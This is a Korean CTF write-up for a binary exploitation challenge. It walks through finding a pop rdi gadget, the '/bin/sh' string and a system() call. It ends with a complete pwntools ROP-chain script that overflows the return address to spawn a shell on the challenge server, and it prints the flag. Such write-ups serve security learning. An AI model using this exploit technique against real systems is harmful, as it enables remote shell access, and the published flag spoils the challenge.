

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


첨부파일

[aaa.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

flag.txt가 아닌 another_flag.txt를 봐야하는 상황이다.

즉, 0x401E57로 가야하는게 아닌 0x401E68로 가서 return address를 오염시켜 another_flag.txt를 획득해야 한다.


another_flag.txt를 조합하기보다는 shell을 획득하는 것이 더 편할것 같다는 판단했다.

즉, 0x401E6E에서 return해서 갈 주소를 0x401E5E로 정할것인데, rdi는 "/bin/sh"이 담겨있어야 한다.

먼저 pop rdi ; ret이 사용되는 주소를 살펴본다.


[rp++](https://github.com/0vercl0k/rp/downloads)로 pop rdi ; ret이 사용되는 주소가 여러가지 나오는데 그 중 첫번째 줄을 사용하겠다. (0x40191a)


그다음 "/bin/sh"이라는 문자열의 주소를 구한다.

먼저 "/bin/sh"의 offset은 다음과 같다. (0x97895)



gdb를 통해서 "/bin/sh"의 주소를 확인한다. (0x400000 + 0x97895)


mov eax, 0; system()의 주소를 IDA에서 확인한다. (0x401E5E)

최종 payload는 \x00*40 + (pop rdi ; ret주소) + ("/bin/sh"주소) + (mov eax, 0; system()의 주소)이고, python으로 코딩하면 다음과 같다.

```py
from pwn import *

p = remote('oreos.ctfchallenge.ga', 7331)
p.recvuntil('spaces:')

base_addr = 0x400000
shell_offset = 0x97895
system_addr = 0x401E5E
pop_rdi = 0x40191a

payload = b''
payload += b'\x00'*40
payload += p64(pop_rdi)
payload += p64(base_addr + shell_offset)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

실행 후 interactive모드로 전환되고, cat으로 flag를 확인할 수 있다.


# **FLAG**

**ictf{r0p_t0_th3_r3scu3!}**